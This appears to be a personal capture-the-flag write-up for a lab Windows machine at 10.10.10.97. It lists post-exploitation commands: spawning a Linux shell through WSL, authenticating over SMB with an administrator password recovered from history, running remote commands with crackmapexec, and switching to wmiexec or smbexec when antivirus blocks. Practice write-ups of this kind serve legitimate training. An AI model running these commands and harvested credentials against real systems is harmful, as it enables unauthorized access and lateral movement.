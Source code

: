 ![[Pasted image 20250414170532.png]]
# Find the WSL binary
---
- `where /R c:\windows wsl.exe`
- ![[Pasted image 20250414164004.png]]
- `c:\Windows\System32\wsl.exe whoami`
	- ![[Pasted image 20250414164036.png]]

# Getting a shell on linux
---
- `C:\inetpub\new-site>c:\Windows\System32\bash.exe`
	- ![[Pasted image 20250414164104.png]]
- `python -c "import pty;pty.spawn('/bin/bash')"`
	- ![[Pasted image 20250414164229.png]]

# Getting shell on windows using python
---
- Checking history
	- ![[Pasted image 20250414164330.png]]
- Connect with smb shares again with administrator:
	- `smbclient -U 'administrator%u6!4ZwgwOM#^OBf#Nwnh' \\\\10.10.10.97\\c$`
	- ![[Pasted image 20250414164532.png]]
# Impacket crackmapexe / psexec
---
- `crackmapexec smb 10.10.10.97 -u administrator -p 'u6!4ZwgwOM#^OBf#Nwnh' -X whoami`
	![[Pasted image 20250414165409.png]]
	![[Pasted image 20250414165526.png]]

# If Antivirus Blocks
---
- ==We can use `wmiexec`or `smbexec`:==
	- ![[Pasted image 20250414165623.png]]